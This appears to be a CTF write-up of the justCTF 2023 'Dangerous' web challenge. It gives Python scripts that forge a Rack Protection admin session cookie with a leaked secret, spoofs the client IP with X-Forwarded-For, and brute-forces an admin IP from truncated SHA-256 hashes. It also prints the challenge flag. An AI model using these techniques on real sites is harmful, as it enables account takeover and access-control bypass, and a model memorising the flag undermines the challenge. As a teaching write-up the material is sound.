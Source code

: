 ```yaml
---
layout: post
title: justCTF 2023 Dangerous (Web) Writeup
tags: [ctf, ctf writeup, ctf web]
---
```


[justCTF 2023 Dangerous (Web)](https://2023.justctf.team/challenges/18)  
[Event on CTFtime](https://ctftime.org/event/1930)

## Challenge Description

> My friend told me there's a secret page on this forum, but it's only for administrators.

A link to the challenge and downloadable of the source code are provided.

## A First Look

The web app is a forum, with two threads posted.

![Homepage](/assets/image/justctf-2023-web-dangerous-writeup/homepage.png)

Viewing one of the threads, it can be seen that the username of admin is `janitor`.

![Thread 1](/assets/image/justctf-2023-web-dangerous-writeup/thread-1.png)

The web app is written in Ruby.

The `/flag` endpoint and `is_llowed_ip` function is especially interesting:

```ruby
get "/flag" do
  if !session[:username] then
    erb :login
  elsif !is_allowed_ip(session[:username], request.ip, config) then
    return [403, "You are connecting from untrusted IP!"]
  else
    return config["flag"] 
  end
end

def is_allowed_ip(username, ip, config)
  return config["mods"].any? {
    |mod| mod["username"] == username and mod["allowed_ip"] == ip
  }
end
```

It checks the if the user logged in is a moderator and if the IP address is the allowed IP address in a config file.

## Craft Admin Cookie

When clicking on "New Thread" without filling in anything, the website shows an error page with backtrace and environment information. The session secret as well as how the session cookie is encoded is revealed.

![Session options](/assets/image/justctf-2023-web-dangerous-writeup/session-options.png)

The session is implemented with Rack Protection. With some research into the [source code](https://github.com/sinatra/sinatra/blob/5f4dde19719505989905782a61a19c545df7f9f9/rack-protection/lib/rack/protection/encryptor.rb#L19), and from environment info, it can be seen that the session cookie is encoded and encrypted as follows:

1. The data is first serialised with Marshal
2. It is then encrypted with AES-256-GCM with the first 32 bytes of the session secret as the key
3. The encrypted data, IV and authentication tag are then encoded with URL-safe base64
4. The encrypted data, IV and authentication tag are then concatenated with a `--` delimiter

My script to modify the session cookie into an admin cookie is as follows:

```python
import base64
import urllib.parse
import rubymarshal.reader, rubymarshal.writer
from Crypto.Cipher import AES

secret = bytes.fromhex('[secret hex string]')
cookie = '[original cookie]'
ct, iv, auth = cookie.split('--')
ct, iv, auth = map(urllib.parse.unquote, [ct, iv, auth])
ct, iv, auth = map(base64.b64decode, [ct, iv, auth])
cipher = AES.new(secret[:32], AES.MODE_GCM, iv)
dec = cipher.decrypt(ct)
d = rubymarshal.reader.loads(dec)

d['username'] = 'janitor'
m = rubymarshal.writer.writes(d)
cipher = AES.new(secret[:32], AES.MODE_GCM, iv)  # I just reuse the original IV
ct, auth = cipher.encrypt_and_digest(m)
ct, iv, auth = map(base64.b64encode, [ct, iv, auth])
ct, iv, auth = map(urllib.parse.quote, [ct, iv, auth])
cookie = f'{ct}--{iv}--{auth}'
print(cookie)
```

## Bypass IP Restriction

With the admin cookie, the `/flag` endpoint now does not prompt to login, but instead shows a 403 error page with message "You are connecting from untrusted IP!".

### Spoof the IP Address

In `nginx.conf`, it can be seen that the `REMOTE_ADDR` header is set to localhost with the following:

```nginx
proxy_set_header REMOTE_ADDR localhost;
```

Research on how the app gets `request.ip`, found in this [Stack Overflow answer](https://stackoverflow.com/a/43014286), that if the `REMOTE_ADDR` is in reserved private subnet ranges, it will instead use the `X-Forwarded-For` header, thus the IP address can be spoofed with `X-Forwarded-For`.

### Find the Allowed IP Address

However, the allowed IP address is still unknown. Looking at the source code, the user colour uses in each thread uses the first 6 characters of the hex value of SHA-256 of the IP address and thread ID concatenated together.

```erb
<% user_color = Digest::SHA256.hexdigest(reply[2] + @id).slice(0, 6) %>
```

In the above code, `reply[2]` is the IP address of the user who posted the reply, and `@id` is the thread ID.

Both of thread 1 and thread 2 have a reply from the admin, so the IP address can be found by brute forcing to find the IP address that produces the matching hashes for both threads.

```python
from Crypto.Hash import SHA256
from multiprocessing import Pool
target = '32cae2'
thread = 1
def brute(a):
    for b in range(256):
        for c in range(256):
            for d in range(256):
                ip = f'{a}.{b}.{c}.{d}'
                x = ip + str(thread)
                h = SHA256.new(x.encode()).hexdigest()[:6]
                if h == target:
                    print(f'{a}.{b}.{c}.{d}', flush=True)
if __name__ == '__main__':
    with Pool(8) as p:
        p.map(brute, range(256))
```

Putting everything together, the flag is:

```
justCTF{1_th1nk_4l1ce_R4bb1t_m1ght_4_4_d0g}
```

## Additional Notes

Rack Protection tracks user agent, and if the user agent is changed, the session cookie will be invalidated. Either the user agent must be spoofed, or the session cookie must be regenerated.
